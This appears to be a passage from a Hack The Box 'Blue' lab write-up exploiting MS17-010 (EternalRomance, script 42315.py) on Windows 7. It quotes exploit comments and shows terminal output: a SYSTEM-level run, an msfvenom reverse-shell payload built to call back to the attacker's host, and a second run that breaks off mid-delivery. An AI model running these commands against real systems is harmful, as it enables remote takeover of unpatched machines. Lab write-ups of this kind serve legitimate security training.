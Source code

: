 Note: method name is from NSA eternalromance

For Windows 7 and later, it is good to use matched pair method (one is large pool and another one is fit
for freed pool from large pool). Additionally, the exploit does the information leak to check transactions
alignment before doing OOB write. So this exploit should never crash a target against Windows 7 and later.

For Windows Vista and earlier, matched pair method is impossible because we cannot allocate transaction size
smaller than PAGE_SIZE (Windows XP can but large page pool does not split the last page of allocation). But
a transaction with empty setup is allocated on private heap (it is created by RtlCreateHeap() on initialing server).
Only this transaction type uses this heap. Normally, no one uses this transaction type. So transactions alignment





root@kali:~/HTB/BLUE# python 42315.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8003fe7ba0
SESSION: 0xfffff8a001687de0
FLINK: 0xfffff8a001938088
InParam: 0xfffff8a00193215c
MID: 0x3203
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Done
root@kali:~/HTB/BLUE#




root@kali:~/HTB/BLUE# msfvenom -p windows/x64/shell_reverse_tcp -f exe -o exploit.exe EXITFUNC=thread LHOST=10.10.14.28 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: exploit.exe


root@kali:~/HTB/BLUE# python 42315.py 10.10.10.40 samr exploit.exe 
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa80027761e0
SESSION: 0xfffff8a0015ec2a0
FLINK: 0xfffff8a0041fe088
InParam: 0xfffff8a0041f815c
MID: 0x3b03
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM